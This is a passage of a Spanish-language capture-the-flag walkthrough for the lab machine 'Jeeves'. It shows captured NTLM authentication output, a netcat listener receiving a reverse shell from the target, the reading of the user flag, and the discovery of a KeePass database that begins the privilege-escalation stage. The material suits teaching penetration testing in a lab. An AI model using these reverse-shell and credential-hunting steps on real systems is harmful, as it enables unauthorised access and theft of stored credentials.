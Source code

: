 ```bash
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
```

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.63 49679
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>
```

## User.txt

Si nos vamos ala **raiz** `C:\` vemos que hay esta la `user.txt`

```bash
dir /r /s user.txt
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes

     Total Files Listed:
               1 File(s)             32 bytes
               0 Dir(s)   2,408,325,120 bytes free

C:\>
```

```bash
type user.txt
e3232272596fb47950d59c4cf1e7066a
C:\Users\kohsuke\Desktop>
```

## Escalada de Privilegios

Si vamos un directorio hacia atrás vemos lo siguiente

```bash
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,408,325,120 bytes free

C:\Users\kohsuke\Documents>
```